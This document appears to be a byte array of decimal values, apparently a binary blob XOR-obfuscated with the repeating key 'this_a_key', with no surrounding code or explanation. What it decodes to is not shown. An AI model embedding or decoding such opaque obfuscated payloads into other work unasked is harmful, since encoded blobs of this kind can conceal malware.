  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  138, 151, 105, 115,  91,  97,  93, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  94,  97,  95, 107, 133, 252, 
  235, 154, 144,  60,  55, 113, 244, 250, 109, 121, 
   95,  79, 218, 170, 111,  97,  95, 107, 115, 120, 
  116, 104,  99, 115,  95,  97,  88, 107, 101, 121, 
  236, 104, 105, 115,  93,  97,  95, 107, 203, 121, 
  116, 104,  97, 115,  95,  97, 224, 107, 101, 121, 
  117, 104, 105, 115, 148,  97,  95, 107, 106, 121, 
  116, 104, 184, 115,  95,  97,  79, 107, 101, 121, 
  173, 104, 105, 115,  77,  97,  95, 107, 132, 121, 
  116, 104, 103, 115,  95,  97, 163, 107, 101, 121, 
  125, 104, 105, 115,  91,  96,  95, 107, 118, 121, 
  116, 104, 103, 114,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  106, 104, 105, 115,  81,  97,  95, 107,  38,  67, 
   40,  38,   6,   1,  50,   0,  51,  69,   1,  22, 
    0, 104, 119, 115,  95,  97,  86, 107, 101, 121, 
   39,  29,  11,  83,  18,  32,  22,  37, 101, 103, 
  116, 104, 105, 119,  95,  97,  95,  18,  12,  23, 
  116, 106, 105, 115,  95, 133,  91, 104, 101, 121, 
  116, 104, 105, 115,  95,  98,  95, 107, 101, 121, 
  116, 104, 105, 109,  95,  97,  95, 120, 101, 121, 
  116,  37,   0,  16,  45,  14,  44,   4,   3,  13, 
   84,  63,   6,   1,  59,  65, 105,  69,  85, 121, 
  119, 104, 105, 115,  95,  97,  95, 107, 123, 121, 
  116, 104, 107, 115,  95,  97, 106, 107, 102, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115, 102,  28,  89,  15, 127,  98, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 104, 115, 161, 158,  92,  97, 101, 121, 
  139, 151, 150, 140,  95, 104,  93, 107, 101, 121, 
  116, 104, 169, 115,  95,  97,  95, 107, 101,  63, 
  104, 104, 105, 115,  18,   8,  60,  25,  10,  10, 
   27,  14,  29,  83,   8,  14,  45,  15,  69,  79, 
   90,  88,  73,  55,  48,   2,  42,   6,   0,  23, 
    0, 104,  99, 115,  95,  97,  18,  56,  50,  22, 
    6,  12,  45,  28,  60,  97,  79, 107, 101, 121, 
   35,   7,  27,  23, 113,  37,  48,   8,  16,  20, 
   17,   6,  29,  93, 105,  97, 171,  82, 215,   8, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  168, 205,   1, 115,  26, 161,  86, 111, 101, 121, 
   81, 104,  12, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  98,  95, 107,  46, 122, 
  116, 104,  59, 121,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104,  34, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 113, 
  116, 104, 229, 115,  95,  97,  95,  99, 101, 121, 
  248, 104, 105, 115, 211, 105,  95, 107, 101, 121, 
  116, 104, 229, 123,  95,  97,  95, 107, 101, 121, 
  248,  96, 105, 115,  95,  97,  95, 107, 233, 113, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
   96, 104, 105, 115, 155, 105,  95, 107, 101, 121, 
  116, 104, 223, 123,  95,  97,  81, 107, 101, 121, 
  176,  96, 105, 115,  95,  97,  95, 107, 161, 113, 
  116, 104, 105, 115,  95,  97, 155,  99, 101, 121, 
  116, 104, 105, 115, 155, 105,  95, 107, 111, 121, 
  116, 104, 167, 123,  95,  97,  85, 107, 101, 121, 
  176,  96, 105, 115,  95,  97,  95, 107, 253, 112, 
  116, 104,  42, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 189, 113, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107,  52, 112, 
  116, 104, 105, 115,  95,  97,  14,  98, 101, 121, 
  116, 104, 105, 115,  14, 104,  95, 107, 101, 121, 
  116, 104,  56, 122,  95,  97,  95, 107, 101, 121, 
   37,  97, 105, 115,  95,  97,  95, 107,  52, 112, 
  116, 104, 119, 115,  95,  97, 132,  98, 101, 121, 
   44, 104, 105, 115, 108, 107,  95, 107, 122, 121, 
  116, 104,   6, 122,  95,  97, 118, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 105, 115,  93,  97,  92, 107, 100, 121, 
  117, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
   27,  97, 105, 115,  95,  97,  95, 107, 189, 113, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 211, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 177, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 189, 113, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 229, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 122, 112, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 201, 123,  95,  97,  87, 107, 101, 121, 
  220,  96, 105, 115,  81,  97,  95, 107, 233, 113, 
  116, 104, 105, 115,  95,  97, 211,  99, 101, 121, 
  116, 104, 105, 115, 211, 105,  95, 107, 101, 121, 
  116, 104, 229, 123,  95,  97,  95, 107, 101, 121, 
  172,  96, 105, 115,  95,  97,  95, 107, 122, 112, 
  116, 104, 105, 115,  95,  97, 135,  99, 101, 121, 
   51, 104, 105, 115, 135, 105,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107,  40,   0, 
   84,  14,  27,  26,  58,  15,  59,  71,  69,  48, 
   84,  27,   8,  26,  59,  77, 127,  31,  13,  28, 
    6,  13,  73,  26,  44,  65,  45,  14,   4,  21, 
   24,  17,  73,  29,  48,  65,  57,   7,   4,  30, 
   84,   0,  12,   1,  58,  77, 127,  28,  13,   0, 
   84,  12,   6,  29, 205,  21, 127,  18,  10,  12, 
   84,  10,  12,  31,  54,   4,  41,  14,  69,  20, 
   17,  87, 100,  95, 114,  40, 105,  47,  76,  25, 
   24,  12,  10,  58,  21, 103, 114,  67,  34, 114, 
   63,  41,  37,  57,   9, 116,  16,  35,  44,  50, 
   61,  39,  38,  60,  19, 120,  64, 114, 123,  48, 
  104, 125, 113, 102,  17,  47,  64,  39, 125,  97, 
  105, 116, 118,  58,  65, 124,  95, 104, 101, 121, 
   63, 107, 105, 115, 217,  98,  95, 107, 101, 135, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  93,  20,  94, 105, 101, 122, 
  116, 104,  34, 112,  95,  97, 161, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  94, 107, 101, 120, 
  122, 104, 102, 115,  87,  97,  94, 107,  46, 121, 
  123, 104, 105, 115,  95,  97,  99, 107, 101,  57, 
  133, 151, 107, 115,  99,  97,  89,  37,  10,  11, 
   25,   9,   5, 115, 126,  97,  95, 107, 106, 100, 
  116,  97, 137, 114, 159,  98, 255, 110, 229, 126, 
   20,  97,  41, 120, 127, 108,  95, 100, 133, 105, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  114, 104,  52, 112,  95,   0,  86, 111, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97, 125, 107,  36,  57, 
  134, 151, 200, 115, 125,  97,  73,  47,   0,  31, 
   21,  29,   5,   7, 127,  49,  62,  25,   4,  30, 
    6,   9,  25,  27, 127,  39,  48,   5,  17, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  20,  97,  95, 107, 102, 121, 
  139, 151, 150, 140,  92,  97, 160, 148, 154, 134, 
  117, 104, 109,  83, 160, 158,  94, 107, 101, 121, 
  116, 104,  34, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  20, 107, 101, 121, 
  116, 107, 169,  82,  56,  99,  95, 104, 101, 121, 
  242, 107, 105, 115,  93,  97,  95, 104, 101, 121, 
   63, 107, 105, 115,  92,  97,  24, 107, 102,   0, 
   29,   6,  98,  48, 101,  61,  57,  90,  81,  30, 
   90,  12,   6,   7,  92,  24,  54,   5,  85,  58, 
   78,  52,  62,  58,  17,  47,  11,  55,  53,  11, 
   27,  14,   0,  31,  58,  18,   3,  42,   1,  20, 
   29,   6,   0,   0,  43,  19,  62,  31,  10,  11, 
   40,  44,  12,   0,  52,  21,  48,  27,  57,  31, 
   69,  92,  14,  93,  59,  14,  43, 148, 100, 120, 
  116,  61,  68, 115,  95,  97,  95, 148, 154,  50, 
  119, 104, 105,  72,  95,  97,  95, 104, 101, 121, 
  116,  35, 106, 115,  95, 113,  86, 107,  97,  31, 
   69,  92,  14, 114,  95, 112,  94, 107, 101, 121, 
  112,  46,  88,  71,  24,  97,  31, 106, 229, 120, 
  116,  87, 105, 115,  95,  94,  95, 107, 101, 113, 
  116,  92, 104,  71,  94,  94,  95, 107, 101, 121, 
  116, 104, 105,  76,  95,  97,  95, 106,  96, 121, 
   33, 233,  10,  75,  95,  99,  67, 107, 101, 121, 
  116, 104, 105, 115,  21,  97,  95, 107,  46, 121, 
  116, 104,  89, 115,  95,  98,  95, 107, 100, 121, 
   68, 104,  35, 112,  95,  97,  95, 107,  38, 121, 
   97, 126, 249, 114,  95,  97,  11,   2,   8,  28, 
    7,  72,  39,  22,  40,  65,  13,   4,   8,  24, 
   26, 104, 101, 101, 207,  96,  93, 107,  54,   0, 
   25,  10,   6,  31,  95, 106, 121, 251, 100, 121, 
  116,  41,  27,  26,  62,  13,  95, 122,  80, 233, 
  117, 104, 105,  48,  48,  20,  45,   2,   0,  11, 
   84,  38,  12,   4,  95,  67,  95, 111, 101,  72, 
  124, 224, 113, 115,  95, 177,  93, 107, 101,  17, 
  117, 104, 105, 115,  95, 197, 211, 252, 162, 209, 
  248, 255, 174, 115,  95,  97,  95, 110, 101, 122, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 111, 101, 250, 
  100, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95,  79, 102, 121, 
  116, 104, 105, 108,  95,  97,  95,  99,  54,  12, 
   22,  72,  36,  50,  22,  47,  95, 107, 101, 121, 
  119,  17,   0,  29,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  13,  97,  48, 107,  10, 121, 
    0, 104,  73, 115,  26,  97,  49, 107,  17, 121, 
    6, 104,  16, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 115, 121, 
  113, 104, 150, 140, 160, 158, 160, 148, 154, 134, 
  119, 104, 105, 115,  95, 104,  93, 107, 101, 121, 
  116, 104, 169, 115,  95,  97,  95, 107, 101,  63, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104,   9,  86, 231, 168, 176,  17, 178, 120, 
  100, 104, 105, 115, 223, 109,  95, 107, 101, 121, 
  116, 104, 104, 115,  28,  97,  48, 107,   8, 121, 
    4, 104,  38, 115,  61,  97,  53, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  77, 107, 103, 120, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104,   7, 115,  95,  97,  95, 107, 101, 121, 
   35, 104,   6, 115,  45,  97,  59, 107,  33, 121, 
   27, 104,  10, 115,  42,  97,  50, 107,   0, 121, 
   26, 104,  29, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  69,  97,  93, 106, 154, 134, 
  139, 151, 109, 115,  95,  97, 160, 148, 154, 134, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  93, 107, 101, 121, 
   38,  98, 105, 115,  95,  97,  95, 107,  42, 121, 
   22, 104,   3, 115,  58,  97,  60, 107,  17, 121, 
   36, 104,   6, 115,  48,  97,  51, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 127, 115,  94,  96,  94, 107, 101, 121, 
  118, 104, 105, 115, 160, 158, 160, 148, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107,  69, 185, 
  190, 196, 134,   9, 136,  96, 127, 171, 175, 213, 
  155,  18, 190, 114,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  121, 104, 105, 115, 162, 158, 160, 148, 155, 134, 
  139, 151, 151, 140, 160, 158,  77, 107, 101, 121, 
  101, 104, 105, 115,  80,  97,  95, 107, 118, 121, 
  116, 104, 125, 115,  95,  97,  74, 107, 101, 121, 
  138, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
